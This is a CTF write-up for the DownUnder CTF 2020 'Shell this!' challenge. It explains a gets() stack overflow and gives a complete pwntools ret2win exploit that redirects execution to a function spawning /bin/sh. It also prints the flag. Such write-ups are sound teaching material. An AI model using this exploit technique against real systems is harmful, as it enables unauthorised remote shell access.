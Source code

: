 # DownUnder CTF 2020: Pwn: Shell this!
</br>**Category:** Pwn/Binary exploitation **Points:** 100 points
</br></br>
**Description:**</br>
Somebody told me that this program is vulnerable to something called remote code execution?
I'm not entirely sure what that is, but could you please figure it out for me?
>nc chal.duc.tf 30002

**Attachments:**</br>
[shellthis.c](shellthis.c) (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)</br>
[shellthis](shellthis) (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)

## Solution
```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

From the source code we can see that the vulnerability lies in the function `gets`. From the system manual pages on the function `gets` we even have in the Description section, in color, **Never use this function.**. If we scroll down the page, in the Bugs section, we can read:

"Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead."

The buffer overflow attack in an image:
<p align=center><img src='buffer-overflow-diagram.png'></p>

So, by overflowing our buffer, `name`, we are able to overwrite the return function address of `vuln()`, which means, that when `vuln()` returns, instead of going back to `main()` we can make it go to `get_shell()`.

To do this, all we need to know is, how much padding we need before we hit the return address, and what is the `get_shell()` address.

Discover padding length:
```
$ pwn cyclic 1024 | ./shellthis
$ dmseg
[42516.972271] shellthis[88635]: segfault at 6161616f ip 000000006161616f sp 00007fffc8e245d0 error 14 in libc-2.31.so[7f21b312c000+25000]
[42516.972282] Code: Bad RIP value.
$ pwn cyclic -l 0x6161616f
56
```

Discover `get_shell()` address:
```
$ objdump -D shellthis | grep get_shell
00000000004006ca get_shell:
```

### Exploit
```python
from pwn import *

local = False

if local:
    p = process('./shellthis')
else:
    p = remote('chal.duc.tf', 30002)

p.recvuntil('Please tell me your name: ')

padding = b'A'*56
get_shell_addr = 0x00000000004006ca
payload = padding + p64(get_shell_addr)
p.sendline(payload)

p.interactive()
```

## Flag
>DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
